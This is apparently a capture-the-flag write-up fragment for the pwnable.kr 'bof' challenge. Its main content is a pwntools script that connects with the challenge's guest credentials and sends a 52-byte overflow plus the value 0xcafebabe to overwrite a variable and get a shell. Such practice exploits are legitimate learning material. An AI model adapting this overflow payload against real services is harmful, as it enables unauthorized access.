

# Final Payload

```
from pwn import *

s = ssh('bof', 'pwnable.kr', password='guest', port=2222)
p = s.remote('127.0.0.1', 9000)
# for some reason the ctf requires to conncet to a different user to be able to see the flag

payload = b"A" * 52 + p32(0xcafebabe)
p.sendline(payload)
p.interactive()

```



